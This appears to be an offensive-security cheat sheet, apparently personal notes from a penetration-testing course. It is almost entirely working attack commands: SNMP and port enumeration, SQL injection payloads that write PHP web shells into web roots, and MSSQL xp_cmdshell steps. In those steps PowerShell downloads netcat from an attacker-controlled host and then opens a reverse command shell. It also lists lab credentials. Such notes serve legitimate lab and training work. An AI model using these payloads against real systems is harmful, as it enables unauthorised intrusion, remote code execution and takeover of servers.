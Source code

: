 ```jsx
sudo nmap -sU -p161 --script *snmp* 192.168.240.42
```

```jsx
snmp-check 192.168.240.42
```

```jsx
snmpwalk -c public -v1 -t 10 192.168.50.151
snmpwalk -v1 -c public 192.168.189.156 1.3.6.1.4.1.8072.1.3.2.3.1.1
```

[SNMP enumeration (161,162)](https://www.notion.so/SNMP-enumeration-161-162-fd52dea43c264141a9e0dd5b07711ecb?pvs=21) - There is more specific enum

## Other voodoo unknown ports

```jsx
nc -nv 192.168.217.143 3003
help
version
```

# SQLi

```jsx
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' 
```

```jsx
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
```

<aside>
💡 We can find webshell location to upload in phpinfo (.php) DOCUMENT_ROOT

</aside>

### xp_cmdshell

```jsx
netexec mssql 10.10.137.148 -u sql_svc -p Dolphin1
impacket-mssqlclient svc_mssql:'Service1'@240.0.0.1 -windows-auth

# option from Nagoya
enable_xp_cmdshell
xp_cmdshell whoami

# Classic from the course
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

EXECUTE xp_cmdshell 'powershell iwr -uri http://10.10.137.147:8888/nc64.exe -OutFile C:/Users/Public/nc64.exe';
EXECUTE xp_cmdshell 'C:/Users/Public/nc64.exe 10.10.137.147 443 -e cmd';
```
